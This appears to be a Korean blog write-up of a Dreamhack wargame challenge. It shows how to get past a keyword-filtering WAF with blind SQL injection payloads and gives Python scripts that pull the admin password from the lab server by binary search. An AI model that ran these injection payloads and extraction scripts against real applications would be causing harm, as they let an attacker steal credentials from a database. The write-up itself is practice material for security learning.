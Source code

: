 ```yaml
---
title: "드림핵 lv.2 - sql injection bypass WAF Advanced"
date: 2025-03-03 00:20:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, sql injection, WAF, bypass] 
description: 드림핵 sql injection bypass WAF Advanced 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/416](https://dreamhack.io/wargame/challenges/416)
# 문제 설명
Exercise: SQL Injection Bypass WAF의 패치된 문제입니다.

---
# 문제 풀이
[https://hoonsooni.com/posts/dreamhack_sql_injection_bypass_WAF](https://hoonsooni.com/posts/dreamhack_sql_injection_bypass_WAF)<br />
이번 문제는 이 전에 풀었던 문제와 상당 부분 일치하는 문제이다. 그래서 웹사이트 분석은 생략해도 될 것 같다.
## 코드 분석
### app.py
```python
keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/', '\n', '\r', '\t', '\x0b', '\x0c', '-', '+']

def check_WAF(data):
    for keyword in keywords:
        if keyword in data.lower():
            return True

    return False
```
코드 또한 거의 대부분이 똑같다. 하지만 문제에서 설명했듯 WAF 우회 취약점이 패치된 상황이라고 한다.<br />

그래서 달라진 부분만 가져와봤다. 필터링할 키워드가 늘어나있는 것이 보인다.<br />
이 전에는 쿼리에 필요한 공백 문자를 `\n`이나 `\t`로 대체할 수 있었는데 이 부분이 완전히 막혀버렸다. <br />

여기에 추가적으로 if문을 보면 data.lower() 함수 때문에 이 전처럼 "union"을 "UniON"같은 것으로 우회하는 길도 막혔다.
## 최종 풀이
```sql
' UnION SeLecT null,upw,null FroM user WHERE uid='AdMiN' --
```
이 전에 사용했던 쿼리이다. 이제 이것들을 하나씩 우회하는 방법을 찾아봐야 하는데 그런 방식으로는 해결이 안될 것 같다.<br />

아무리 생각해도 쿼리가 생각이 나지를 않아서 방향을 바꿔보기로 했다. Blind SQL Injection을 이용한 방법이다.<br />
### 테스트 쿼리
```sql
'||uid=reverse("nimda")&&if(ascii(substr(upw,1,1))=0x44,1,0)#
```
우선 쿼리를 하나 작성하고 작동하는지 테스트를 해봐야한다.<br />
우선 admin 조차 입력할 수 없으니까 reverse를 통해서 uid가 admin값을 가지는지 확인하고 ascii()와 substr() 함수들을 통해서 비밀번호의 한 글자 한 글자를 체크하는 식으로 진행해야 한다.<br />

추가적으로 신경써야 할 점은, 이 전 쿼리에선 주석 처리를 '--'로 하고 있는데 '-' 기호도 막혀버려서 '#'으로 대체했다.
### 비밀번호 길이 구하기
비밀번호를 구하기 이전에 길이부터 알아야한다.<br />
```sql
'||uid=reverse("nimda")&&length(upw)=15#
```
테스트 쿼리를 작성해주고 uid 인풋 박스에 넣어서 제출하면 WAF 혹은 인터널 에러가 발생하지는 않는 것을 보면 쿼리는 잘 작동하는 듯 하다.<br />

```python
import requests

port = "14719"
url = f"http://host1.dreamhack.games:{port}/?uid="

length = 0

for len in range(1, 50):
    query = f"'||uid%3Dreverse('nimda')%26%26length(upw)%3D{str(len)}%23"
    resp = requests.get(f"{url}{query}")

    if "admin" in resp.text:
        length = len
        break

print(length)
```
이제 해당 쿼리를 적절히 인코딩하여 반복문을 돌려주면 비밀번호의 길이(44)를 알 수 있다.
### 비밀번호 구하기
```python
import requests

port = "20254"
url = f"http://host1.dreamhack.games:{port}/?uid="

length = 44

pw = ""

for i in range(1, length + 1):
    left = 32
    right = 126

    while left <= right:
        mid = (left + right) // 2
        query = f"'||uid%3Dreverse('nimda')%26%26if(ascii(substr(upw%2C{i}%2C1))>{str(mid)}%2C1%2C0)%23"

        resp = requests.get(f"{url}{query}")

        if "admin" in resp.text:
            left = mid + 1
        else:
            right = mid - 1
        
    pw += chr(left)
    print(pw)
```
해당 코드를 실행하고 조금만 기다리면 최종 비밀번호, 즉 플래그를 얻게된다.<br />
보통 플래그는 출력이 가능한 ascii 문자로 이루어져 있기 때문에 32(' ')부터 126('~')까지 돌아가면서 맞는 비밀번호를 찾는 원리이다.<br />

비밀번호의 길이는 44이고 126 - 32만큼 반복을 돌면 총 44 * 94번을 반복해야 하기 때문에 상당히 오래걸린다. *단순 연산으로만 따지면 컴퓨터 입장에선 별 거 아니지만 HTTP 요청 연산으로 저 만큼의 반복을 수행하면 꽤나 시간이 걸린다.*<br />

그래서 이진 탐색 방식으로 각 문자를 찾는데 걸리는 연산을 최대 7번으로 줄일 수 있다.
# 배운 것
어떠한 공격을 막았다면 그것을 우회하는 데에는 생각보다 많은 변화가 필요하다는 것을 알았다.<br />